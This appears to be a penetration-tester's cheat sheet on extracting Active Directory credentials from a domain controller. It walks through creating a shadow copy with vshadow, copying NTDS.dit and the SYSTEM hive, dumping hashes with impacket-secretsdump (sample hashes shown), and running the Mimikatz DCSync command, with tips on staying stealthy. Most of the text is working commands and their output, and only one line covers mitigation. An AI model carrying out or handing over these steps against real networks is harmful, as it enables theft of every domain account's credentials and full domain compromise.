 # **Volume Shadow Copy Service (VSS)**  
**Description**:  
A Microsoft technology that creates snapshots ("shadow copies") of files/volumes, even while in use. Used for backups, but abused by attackers to extract sensitive files like the NTDS.dit database (contains AD credentials).  

**Key Files**:  
- **NTDS.dit**: Active Directory database storing user credentials, groups, and objects.  
- **SYSTEM hive**: Contains the boot key to decrypt the NTDS.dit.  

---

## **Prerequisites**  
1. **Domain Admin Access**: Required to execute commands on a Domain Controller (DC).  
2. **Tools**:  
   - `vshadow.exe` (Windows SDK tool, signed by Microsoft).  
   - `impacket-secretsdump` (Kali Linux tool for offline credential extraction).  

---

## **Step-by-Step Exploitation**  

### **1. Create a Shadow Copy**  
**Command**:  Note should run on _CMD_
``` cmd  
vshadow.exe -nw -p C:  
```  
- **`-nw`**: Disables VSS writers (reduces backup time).  
- **`-p`**: Preserves the shadow copy on disk.  

**Output**:  
``` cmd
Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2  
```  
*Note the shadow copy device name for file extraction.*  

---

### **2. Extract NTDS.dit & SYSTEM Hive**  
**Copy NTDS.dit**:  
``` cmd  
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\ntds.dit.bak  
```  

**Export SYSTEM Hive**:  
```cmd  
reg.exe save HKLM\SYSTEM C:\system.bak  
```  

---

### **3. Transfer Files to Kali**  
- Use tools like `smbserver.py` (Impacket), SCP, or PowerShell uploads to move `ntds.dit.bak` and `system.bak` to Kali.  

---

### **4. Extract Credentials with Impacket**  
**Command**:  
```bash  
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL  
```  

**Output**:  
```  
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)  
Administrator:500:aad3b435b51404ee...:2892d26cdf84d7a70e2eb3b9f05c425e:::  
krbtgt:des-cbc-md5:683bdcba9e7c5de9  
```  
*Extracts NTLM hashes, Kerberos keys, and plaintext passwords (if available).*  

---

## **Alternative Methods**  
### **DC Sync Attack (Mimikatz)**  
**Command**:  
```bash  
lsadump::dcsync /user:krbtgt  
```  
- **Stealthier**: No file extraction; directly pulls credentials from AD.  
- Requires administrative privileges.  

---

## **Considerations**  
- **Detection**: VSS abuse creates logs (Event ID 7036 for VSS service start).  
- **Stealth**: Use DC Sync for quieter persistence.  
- **Use Cases**:  
  - **Penetration Testing**: Quick credential harvesting.  
  - **Red Teaming**: Prioritize stealth with DC Sync or living-off-the-land techniques.  

---

## **Commands Summary**  
| Step               | Command                                                                 |  
|--------------------|-------------------------------------------------------------------------|  
| Create Shadow Copy | `vshadow.exe -nw -p C:`                                                |  
| Copy NTDS.dit      | `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\...\ntds.dit C:\`|  
| Export SYSTEM Hive | `reg.exe save HKLM\SYSTEM C:\system.bak`                               |  
| Extract Hashes     | `impacket-secretsdump -ntds ntds.dit -system system.bak LOCAL`         |  

---

**Impact**: Obtains all AD user hashes for pass-the-hash, Golden Ticket attacks, or credential cracking.  
**Mitigation**: Restrict Domain Admin privileges, monitor VSS activity, and protect NTDS.dit/SYSTEM hive access.
